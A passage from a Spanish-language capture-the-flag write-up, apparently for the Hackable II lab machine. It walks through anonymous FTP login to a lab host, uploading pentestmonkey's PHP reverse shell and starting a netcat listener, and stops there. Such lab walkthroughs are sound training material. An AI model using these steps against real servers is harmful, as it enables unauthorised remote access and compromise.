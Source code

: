 Parece que nos intenta decir que la idea es ejecutar una reverse shell en ese directorio.

Si miramos el código:

![](/assets/images/hackable2/onion.png){: .align-center}


### FTP y reverse shell

Vamos a explorar ahora la vía del FTP que descubrimos antes.

~~~bash
❯ ftp -p 192.168.0.17
Connected to 192.168.0.17.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.0.17]
Name (192.168.0.17:kaian): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (192,168,0,17,154,80).
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
226 Transfer complete
~~~

Como podemos observar, es el mismo fichero html que abrimos antes desde el navegador, por lo que utilizaremos la Reverse Shell de PHP de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Le configuramos nuestra IP y le damos permisos de ejecución con `chmod +x php-reverse-shell.php`. La subimos:

~~~
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
227 Entering Passive Mode (192,168,0,17,146,66).
150 Opening BINARY mode data connection for php-reverse-shell.php
226 Transfer complete
5494 bytes sent in 0.00 secs (194.0551 MB/s)
~~~

Ahora nos ponemos en escucha con Netcat en el puerto que hemos configurado en el script: `nc -nlvp 1234`
